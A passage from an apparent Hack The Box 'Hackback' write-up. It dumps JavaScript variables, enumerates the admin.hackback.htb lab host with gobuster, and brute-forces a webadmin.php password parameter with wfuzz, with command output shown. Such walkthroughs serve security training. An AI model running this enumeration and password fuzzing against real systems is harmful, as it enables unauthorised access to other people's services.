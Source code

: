    ```javascript
   < "&password=********"
   
   > k
   < "&session="
   
   > w
   < "Nothing more to say"
   ```
   
   Or you can jsut run this single command to dump all the vars:
   
   ```javascript
   > console.log(x, z, h, y, t, s, i, k, w);
   ```
   
   ```bash
   $ gobuster -u http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/ \
              -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
              -x php

   =====================================================
   Gobuster v2.0.1              OJ Reeves (@TheColonial)
   =====================================================
   [+] Mode         : dir
   [+] Url/Domain   : http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/
   [+] Threads      : 10
   [+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
   [+] Status codes : 200,204,301,302,307,403
   [+] Extensions   : php
   [+] Timeout      : 10s
   =====================================================
   2019/07/06 21:19:41 Starting gobuster
   =====================================================
   /webadmin.php (Status: 302)
   ```
   
   The `webadmin.php` endpoint does redirect, but let's try it with the URL params we found in the `private.js` file:
   ```bash
   $ curl 'http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/webadmin.php?action=list&site=hackthebox&password=foo&session=foo'
   
   Wrong secret key!
   ```
   
   Looks like it does respond if you give it sufficient params, but complains about a`Wrong secret key!`. Let's try to fuzz the password using a password list:
   
   ```bash
   $ wfuzz -w /usr/share/commix/src/txt/passwords_john.txt \
           -u 'http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/webadmin.php?action=list&site=hackthebox&password=FUZZ&session=foo'

   ********************************************************
   * Wfuzz 2.3.4 - The Web Fuzzer                         *
   ********************************************************

   Target: http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/webadmin.php?action=list&site=hackthebox&password=FUZZ&session=foo
   Total requests: 3108

   ==================================================================
   ID   Response   Lines      Word         Chars          Payload    
   ==================================================================

   000002:  C=302      0 L	       3 W	     17 Ch	  "abc123"
   000003:  C=302      0 L	       3 W	     17 Ch	  "password"
   ```